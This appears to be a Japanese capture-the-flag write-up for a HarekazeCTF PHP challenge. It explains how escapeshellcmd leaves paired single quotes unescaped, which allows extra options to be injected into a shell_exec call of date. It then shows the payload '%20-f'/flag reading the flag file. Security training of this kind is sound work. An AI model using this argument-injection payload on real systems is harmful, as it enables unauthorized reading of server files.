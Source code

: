 ```php
        </div>
      </section>
    </main>
    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
  </body>
</html>
```

`shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1")` から、`date` というコマンドを使って好きなフォーマットで現在時刻を表示できるようにしていることがわかります。`$format` は `$_REQUEST['format']` とユーザ入力から受け取っています。

OS コマンドインジェクションができそうな気もしますが、`$format` は `escapeshellcmd` という関数に通されているため難しそうです。例えば、`'; id; #` を与えると `\'\; id\; \#` のようにエスケープされてしまうために OS コマンドインジェクションが成立しません。

`escapeshellcmd` によるエスケープを回避できるようなパターンはないでしょうか。[この関数のドキュメント](https://www.php.net/manual/ja/function.escapeshellcmd.php)を参照してみると、次のような記述が見つかります。

> …' および " は、対になっていない場合にのみエスケープされます。…

つまり、`'` は[対になっていればエスケープされません](https://blog.tokumaru.org/2011/01/php-escapeshellcmd-is-dangerous.html)。試してみましょう。

```
$ psysh
...
>>> echo escapeshellcmd("' abc")
\' abc⏎
>>> echo escapeshellcmd("' 'abc")
' 'abc⏎
```

確かに、対になっている `'` はエスケープされていません。これを使えば、例えば `$format` に `' --hoge '` というような文字列を仕込むと実行される OS コマンドは `date '+' --hoge '' 2>&1` のようになり、`--hoge` というオプションを追加できます。ただ、`;` や `#` などの記号はエスケープされてしまうので、`date` 以外のコマンドを実行させられるようにはできません。

`date` コマンドで使えるオプションの中に、ファイルを読み込めるようなものはないでしょうか。`man` で見てみましょう。

```
$ man date
...

       -f, --file=DATEFILE
              like --date; once for each line of DATEFILE
...
```

ありました。`' -f'/flag` ならどうでしょうか。`?format='%20-f'/flag` にアクセスしてみます。

```html
...
        <div class="container">
          <h1 class="jumbotron-heading"><span class="text-muted">It's</span> date: invalid date 'HarekazeCTF{1t\'s_7pm_1n_t0ky0}'
<span class="text-muted">.</span></h1>
          <p>
            <a href="?format=%H:%M:%S" class="btn btn-outline-secondary">What time is it now?</a>
            <a href="?format=%Y-%m-%d" class="btn btn-outline-secondary">What is the date today?</a>
            <a href="?format=%s" class="btn btn-outline-secondary">What time is it now in UNIX time?</a>
          </p>
        </div>
```
